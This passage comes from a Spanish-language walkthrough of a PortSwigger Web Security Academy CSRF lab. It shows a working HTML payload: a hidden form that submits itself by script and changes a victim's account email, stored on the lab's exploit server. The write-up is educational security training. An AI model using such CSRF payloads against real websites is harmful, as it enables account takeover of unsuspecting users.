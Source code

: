 Si intentamos `modificar` la `petición` y hacerla por `GET` en vez de por `POST`, no funciona

![](/assets/img/CSRF-Lab-10/image_11.png)

Debido a que no podemos realizar la `petición` por `GET`, la única opción que nos queda es la `navegación` de `nivel superior`, es decir, necesitamos que haya `interacción` por parte del `usuario víctima`. Lo primero que vamos a hacer es `inspeccionar` cómo se `envía` el `formulario` de `cambio` de `email`

![](/assets/img/CSRF-Lab-10/image_12.png)

Creamos un `payload` y lo `almacenamos` en el `Exploit server`

```
<html>
  <body>
    <form action="https://0a3f009203784cc58192c61400090045.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="testing@gmail.com">
    </form>
    <script>
         document.forms[0].submit();
    </script>
  </body>
</html>
```

![](/assets/img/CSRF-Lab-10/image_13.png)

